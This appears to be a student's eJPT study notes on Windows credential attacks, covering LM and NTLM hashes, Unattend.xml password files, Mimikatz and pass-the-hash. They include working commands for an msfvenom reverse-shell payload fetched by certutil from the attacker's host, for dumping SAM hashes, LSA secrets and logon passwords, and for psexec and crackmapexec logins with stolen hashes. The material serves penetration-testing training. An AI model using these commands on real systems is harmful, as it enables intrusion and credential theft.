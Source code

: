 # 19 Windows Credential Dumping

# Windows Password Hashes

- Windows OS stores hashed user account passwords locally in the SAM (Security Accounts Manager) database.
- Hashing is the process of converting a piace of data into another value. A hashing function or algorithm is used to generate the new value. The result of a hashing algorithm is know as a hash or hash value.
- Authentication and verification of user credentials is facilitated by the Local Security Authority (LSA).
- Windows versions up to Windows Server 2003 utilize two different types of hashes:
	- LM
	- NTML
- Windows disables LM hashing and utilizes NTLM hashing from Windows Vista onwards.

**SAM Database

- SAM (Security Account Manager) is a database file that is responsible for managing user accounts and passwords on Windows. All user account password store in the SAM database are hashed.
- The SAM database file cannot be copied while the operating system is running.
- The Windows NT kernel keeps the SAM database file locked and as a result, attackers typically utilize in-memory techniques and tools to dump SAM hashes from the LSASS process.
- In modern versions of Windows, the SAM database is encrypted with a syskey.

Note: Elevated/Administrative privileges are required in order to access interact with the LSASS process.

**LM (LanMan)

- LM is the default hashing algorithm that was implemented in Windows operating systems prior to NT4.0.
- The protocol is used to hash user passwords, and the hashing process can be broken down into the following steps:
	- The password is broken into two seven-character chunks.
	- All characters are then converted into uppercase
	- Each chunk is then hashed separately with the DES algorithm.
- LM hashing is generally considered to be a weak protocol and can easily be cracked, primarily because the password hash does not include salts, consequently making brute-force and rainbow table attacks effective against LM hashes. 

```mermaid
graph TD;
    A[Password123] --> B[PASSWO];
    A --> C[RD123];
    B --> D(DES);
    C --> D(DES);
    D --> E[HASH1];
    D --> F[HASH2];
    E --> G[LM Hash];
    F --> G[LM Hash];
```

**NTLM (NTHash)**

- NTLM is a collection of authentication protocols that are utilized in Windows to facilitate authentication between computers. The authentication process involves using a valid username and password to authenticate successfully.
- From Windows Vista onwards, Windows disables LM hashing and utilizes NTLM hashing.
- When a user account is created, it is encrypted using the MD4 hashing algorithm, while the original password is disposed of.
- NTML improves upon LM in the following ways:
	-  Does not split the hash in to two chunks.
	- Case sensitive.
	- Allow the use of symbols and unicode characters.

```mermaid
graph TD;
    A[!Passw0rd123!] --> B[MD4];
    B --> C[HASH];
    C --> D[NTLM Hash];
```

# Searching for Password in Windows Configuration Files

**Windows Configuration Files**

- Windows can automate a variety of repetitive tasks, such as the mass rollout or installation of Windows on many systems.
- This is typically done through the use of the Unattended Windows Setup utility, which is used to automate the mass installation/deployment of Windows on systems.
- This tool utilized configuration files that contain specific configurations and user account credentials, specifically the Administrator account's password.
- If the Unattended Windows Setup configuration files are left on the target system after installation, they can reveal user account credentials that can be used by attackers to authenticate with Windows target legitimately. 

**Unattended Windows Setup**

- The Unattended Windows Setup utility will typically utilize one of the following configuration files that contain user account and system configuration information:
	- C:\\Windows\\Panther\\Unattend.xml
	- C:\\Windows\\Panther\\Autounattend.xml
- As a security precaution, the passwords stored in the Unattended Windows Setup configuration file may be encoded in base64.

```bash
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=<MY-IP> LPORT=<MY-PORT> -f exe > payload.exe
python -m SimpleHTTPServer 80
ON THE TARGET: certutil -urlcache -f http://<MY-IP>/payload.exe payload.exe
msf6: exploit(multi/handler)
	set payload windows/x64/meterpreter/reverse_tcp
	set LPORT <MY-PORT>
	set LHOST <MY-IP>
	run
ON THE TARGET: run payload.exe
meterpreter: search -f Unattend.xml
meterpreter: cd C:\\Windows\\Panther\\unattend.xml
meterpreter: download unattend.xml
CREATE FILE WITH PASSWORD: nano password.txt
base64 -d password.txt
msf6: exploit(windows/smb/psexec)
```

# Dumping Hashes with Mimikatz

- Mimikatz is a Windows post-exploitation tool. It allows for the extraction of clear-text passwords, hashes and Kerberos tickets from memory.
- The SAM (Security Account Manager) database, is a database file on Windows systems that store hashed user passwords.
- Mimikatz can be used to extract hashes from the lsass.exe process memory where hashes are cached.
- We can utilize the pre-compiled mimikatz executable, alternatively, if we have access to a meterpreter session on a Windows target, we can utilize the inbuilt meterpreter extension Kiwi.

Note: Mimikatz will require elevated privileges in order to run correctly.

```shell
msf6: exploit(windows/http/badblue_passthru)
meterpreter: pgrep lsass
meterpreter: migrate <PID>
meterpreter: load kiwi
meterpreter: creds_all
meterpreter: lsa_dump_sam
meterpreter: lsa_dump_secrets

meterpreter: mkdir C:\Temp
meterpreter: upload /usr/share/windows-resources/mimikatz/x64/mimikatz.exe
meterpreter: shell
C:\Temp>.\mimikatz.exe
mimikatz: privilege::debug
mimikatz: lsadump::sam
mimikatz: lsadump::secrets
mimikatz: sekurlsa::logonpasswords
```

# Pass-The-Hash Attacks

- Pass-the-hash is an exploitation technique that involves capturing or harvesting NTLM hashes or clear-text passwords and utilizing them to authenticate with the target legitimately.
- We can use multiple tools to facilitate a Pass-The-Hash attack:
	- Metasploit PsExec module
	- Crackmapexec
- This technique will allow us to obtain access to the target system via legitimate credentials as opposed to obtaining access via service exploitation. 

**Demo**

```shell
msf6: exploit(windows/http/badblue_passthru)
meterpreter: pgrep lsass
meterpreter: migrate <PID>
meterpreter: load kiwi
meterpreter: lsa_dump_sam
CREATE FILE WITH: username: hashedpassword
CTRL + Z (meterpreter in background)
msf6: exploit(windows/smb/psexec)
msf6: sessions
msf6: exploit(windows/smb/psexec)
	set LPORT <MY-PORT> (different from port already in session)
	set SMBUser Administrator
	set SMBPass LM:NTML (hashed password)
	set target Native\ upload

crackmapexec smb <TARGET-IP> -u <USERNAME> -p "NTML-PASSWORD" -x "<COMMAND>"
```

#eJPT #cybersecurity 